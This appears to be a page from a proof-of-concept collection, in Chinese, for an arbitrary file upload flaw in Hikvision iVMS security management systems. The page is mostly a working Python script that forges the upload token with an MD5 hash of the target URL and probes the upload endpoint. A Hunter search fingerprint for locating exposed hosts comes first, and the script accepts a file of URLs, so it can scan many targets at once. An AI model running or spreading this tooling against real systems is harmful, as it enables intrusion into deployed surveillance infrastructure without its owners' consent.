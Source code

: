 ## 海康威视iVMS综合安防系统resourceOperations接口任意文件上传漏洞

## 鹰图指纹
```
web.body="/views/home/file/installPackage.rar"
```
![33552763e8f0dc7bf3ee49698486a07d](https://github.com/wy876/POC/assets/139549762/9b75816d-eead-4aef-9411-6cd9ecec938f)

## poc
```python

import requests
import urllib3
import urllib
import hashlib
import argparse
from colorama import init
from colorama import Fore
init(autoreset=True)
urllib3.disable_warnings()


head = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36",
    "Cookie": "ISMS_8700_Sessionname=ABCB193BD9D82CC2D6094F6ED4D81169"
}
def md5encode(url):
    if url.endswith("/"):
        path = "eps/api/resourceOperations/uploadsecretKeyIbuilding"
    else:
        path = "/eps/api/resourceOperations/uploadsecretKeyIbuilding"
    encodetext = url + path
    input_name = hashlib.md5()
    input_name.update(encodetext.encode("utf-8"))
    return (input_name.hexdigest()).upper()

def poc(url):
    if url.endswith("/"):
        path = "eps/api/resourceOperations/upload?token="
    else:
        path = "/eps/api/resourceOperations/upload?token="
    pocurl = url + path + md5encode(url)
    data = {
        "service": urllib.parse.quote(url + "/home/index.action")
    }
    try:
        response = requests.post(url=pocurl,headers=head,data=data,verify=False,timeout=3)
        if response.status_code==200:
            print(Fore.GREEN + f"[+]{url}存在海康威视iVMS 综合安防任意文件上传漏洞！！！！")
        else:
            print(Fore.RED + f"[-]{url}不存在海康威视iVMS 综合安防任意文件上传漏洞")
    except:
        pass

if __name__ == '__main__':
    parser = argparse.ArgumentParser(usage='python3 ivms.py -u http://xxxx\npython3 ivms.py -f file.txt',
                                     description='ivms漏洞检测poc',
                                     )
    p = parser.add_argument_group('ivms 的参数')
    p.add_argument("-u", "--url", type=str, help="测试单条url")
    p.add_argument("-f", "--file", type=str, help="测试多个url文件")
    args = parser.parse_args()
    if args.url:
        poc(args.url)
    if args.file:
        for i in open(args.file,"r").read().split("\n"):
            poc(i)
```
![7561a68dd370ef377060f8b033db4842](https://github.com/wy876/POC/assets/139549762/bf160518-070d-4953-ab47-15c5f7786b12)

## 漏洞来源
- https://mp.weixin.qq.com/s/W9cLutTOXjmplVKzEKH9Zg
